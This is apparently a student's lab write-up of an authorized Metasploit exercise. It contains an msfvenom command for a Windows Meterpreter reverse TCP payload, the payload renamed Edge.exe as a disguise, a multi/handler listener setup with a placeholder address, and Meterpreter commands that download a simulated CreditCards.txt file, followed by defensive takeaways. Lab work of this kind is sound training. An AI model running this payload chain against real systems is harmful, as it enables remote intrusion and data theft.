









# Metasploit Attack Simulation Lab

## Overview
I completed an authorized virtual machine lab to observe how a simulated phishing email, payload execution, and a reverse TCP connection can lead to remote access and test-file retrieval.

## Scope
The target and phishing activity were part of the test environment. The file named `CreditCards.txt` contained simulated confidential information. No real confidential data was used.

The listener address has been replaced with `LAB_LISTENER_IP` in this report. This is a documentation placeholder, not a literal value to run.

## Tools and Environment
- Kali Linux virtual machine
- Windows target virtual machine
- Metasploit Framework and msfvenom
- Meterpreter session

## Procedure and Commands Used

### 1. Generate the payload — Kali terminal
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=LAB_LISTENER_IP LPORT=5555 -f exe -o /home/kali/payload.exe
```
Generated a Windows x64 executable containing a Meterpreter reverse TCP payload. `LHOST` specified the listener address and `LPORT` specified port 5555. The output was saved as `/home/kali/payload.exe`.

### 2. Copy the payload under another filename — Kali terminal
```bash
cp /home/kali/payload.exe /home/kali/Edge.exe
```
Created a copy named `Edge.exe`, giving it a browser-like filename. This changed the filename, not the executable's behavior, and left the original file in place.

### 3. Configure and start the listener — Metasploit console
```text
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST LAB_LISTENER_IP
set LPORT 5555
exploit
```
Selected the handler and configured it to match the generated payload's type, listener address, and port. `exploit` started the handler to wait for the reverse connection.

### 4. Deliver and execute the payload — simulated phishing exercise
I composed and sent a phishing email containing the payload within the lab. I then saved and executed it on the Windows target VM. After execution, I established a Meterpreter session with the target.

No email delivery commands were supplied for this report.

### 5. Check the current directory — Meterpreter
```text
pwd
```
Displayed the current working directory on the target VM.

### 6. Navigate to the lab user's Documents folder — Meterpreter
```text
cd 'C:\Users\Bob\Documents'
```
Changed the target working directory to the lab user's Documents folder.

### 7. List the directory contents — Meterpreter
```text
dir
```
Listed the files and folders in the target's current directory.

### 8. Retrieve the simulated confidential file — Meterpreter
```text
download CreditCards.txt /home/kali/
```
Downloaded the test file from the target's current directory to `/home/kali/` on the Kali VM.

### 9. Review the downloaded file — Kali terminal
```bash
cat /home/kali/CreditCards.txt
```
Displayed the downloaded file's contents locally to verify retrieval. This command was run in the Kali terminal, not at the Meterpreter prompt.

## Results
I established remote access to the Windows lab target, navigated its filesystem, downloaded the simulated confidential file, and viewed its contents on Kali.

## Defensive Takeaways
- Email filtering and user awareness can help interrupt malicious attachment delivery and execution.
- Endpoint monitoring can help identify suspicious executable activity and network connections.
- Outbound traffic controls can restrict reverse connections.
- Least privilege and file access controls can limit which files an affected user account can access.
- A familiar filename alone does not establish that an executable is trustworthy.

These are defensive lessons from the exercise; I did not document tests of these controls.

## What I Learned
I practiced generating a lab payload, configuring a matching listener, and working with a Meterpreter session. I connected the steps of simulated phishing, execution, remote access, and file retrieval to opportunities for prevention and detection.

## Evidence and Limitations
This report documents the commands and activities I performed. Screenshots are included below; separate captured logs have not been included. It does not claim that the payload bypassed antivirus or other security controls.

This repository contains documentation and lab screenshots, including simulated test-file contents. The executable payload is excluded.

## Screenshot Evidence

These nine screenshots document the authorized lab exercise. The test-file contents are simulated data.

### 1. Metasploit Console



### 2. Payload Generation



### 3. Listener Configuration



### 4. Simulated Phishing Email



### 5. Target Inbox



### 6. Execution Warning



### 7. Session Established



### 8. Test File Download



### 9. Simulated Test File Contents


